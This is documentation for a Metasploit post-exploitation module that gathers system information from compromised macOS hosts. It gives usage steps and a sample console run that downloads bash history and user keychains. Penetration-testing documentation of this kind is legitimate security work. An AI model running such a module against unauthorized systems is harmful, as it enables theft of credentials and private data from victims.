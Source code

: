 ## Vulnerable Application

This module gathers basic system information from Mac OS X Tiger (10.4), through Mojave (10.14).

The following information is enumerated:

1. OS
2. Network
3. Bluetooth
4. Ethernet
5. Printers
6. USB
7. Airport
8. Firewall
9. Known Networks
10. Applications
11. Development Tools
12. Frameworks
13. Logs
14. Preference Panes
15. StartUp
16. TCP/UDP Connections
17. Environment Variables
18. Last Boottime
19. Current Activity
20. Process List
21. Users & Groups
22. User history files (`.bash_history`)
23. User keychains (downloaded as well)

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine
  3. Do: ```use post/osx/gather/enum_osx```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should have lots of files saved to the logs folder

## Scenarios

### User level shell on OSX 10.14.4

```
msf5 > use post/osx/gather/enum_osx 
msf5 post(osx/gather/enum_osx) > show options

Module options (post/osx/gather/enum_osx):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(osx/gather/enum_osx) > set session 1
session => 1
msf5 post(osx/gather/enum_osx) > run

[*] Running module against MacBook-Pro.nogroup
[*] Saving all data to /logs/post/enum_osx/MacBook-Pro.nogroup_20190415.5738
[*] 	Enumerating OS
[*] 	Enumerating Network
[*] 	Enumerating Bluetooth
[*] 	Enumerating Ethernet
[*] 	Enumerating Printers
[*] 	Enumerating USB
[*] 	Enumerating Airport
[*] 	Enumerating Firewall
[*] 	Enumerating Known Networks
[*] 	Enumerating Applications
[*] 	Enumerating Development Tools
[*] 	Enumerating Frameworks
[*] 	Enumerating Logs
[*] 	Enumerating Preference Panes
[*] 	Enumerating StartUp
[*] 	Enumerating TCP Connections
[*] 	Enumerating UDP Connections
[*] 	Enumerating Environment Variables
[*] 	Enumerating Last Boottime
[*] 	Enumerating Current Activity
[*] 	Enumerating Process List
[*] 	Enumerating Users
[*] 	Enumerating Groups
[*] Extracting history files
[*] 	History file .bash_history found for h00die
[*] 	Downloading .bash_history
[*] Enumerating and Downloading keychains for h00die
[*] Post module execution completed
msf5 post(osx/gather/enum_osx) > ls -lah /logs/post/enum_osx/MacBook-Pro.nogroup_20190415.5738
[*] exec: ls -lah /logs/post/enum_osx/MacBook-Pro.nogroup_20190415.5738

total 1.4M
drwxr-xr-x 2 root root 4.0K Apr 15 07:58 .
drwxr-xr-x 3 root root 4.0K Apr 15 07:57 ..
-rw-r--r-- 1 root root 4.2K Apr 15 07:57 Airport.txt
-rw-r--r-- 1 root root  87K Apr 15 07:57 Applications.txt
-rw-r--r-- 1 root root 3.5K Apr 15 07:57 Bluetooth.txt
-rw-r--r-- 1 root root   64 Apr 15 07:58 Current Activity.txt
-rw-r--r-- 1 root root    0 Apr 15 07:57 Development Tools.txt
-rw-r--r-- 1 root root  308 Apr 15 07:58 Environment Variables.txt
-rw-r--r-- 1 root root    0 Apr 15 07:57 Ethernet.txt
-rw-r--r-- 1 root root  129 Apr 15 07:57 Firewall.txt
-rw-r--r-- 1 root root 316K Apr 15 07:58 Frameworks.txt
-rw-r--r-- 1 root root   62 Apr 15 07:58 Groups.txt
-rw-r--r-- 1 root root  414 Apr 15 07:58 h00die_.bash_history.txt
-rw-r--r-- 1 root root   63 Apr 15 07:58 h00die_bash__line_342__usr_bin_security__No_such_file_or_directory
-rw-r--r-- 1 root root 1.3K Apr 15 07:57 Known Networks.txt
-rw-r--r-- 1 root root   32 Apr 15 07:58 Last Boottime.txt
-rw-r--r-- 1 root root 841K Apr 15 07:58 Logs.txt
-rw-r--r-- 1 root root 2.1K Apr 15 07:57 Network.txt
-rw-r--r-- 1 root root  364 Apr 15 07:57 OS.txt
-rw-r--r-- 1 root root 8.8K Apr 15 07:58 Preference Panes.txt
-rw-r--r-- 1 root root  204 Apr 15 07:57 Printers.txt
-rw-r--r-- 1 root root  34K Apr 15 07:58 Process List.txt
-rw-r--r-- 1 root root    0 Apr 15 07:58 StartUp.txt
-rw-r--r-- 1 root root  739 Apr 15 07:58 TCP Connections.txt
-rw-r--r-- 1 root root 4.1K Apr 15 07:58 UDP Connections.txt
-rw-r--r-- 1 root root 1.7K Apr 15 07:57 USB.txt
-rw-r--r-- 1 root root   62 Apr 15 07:58 Users.txt
```

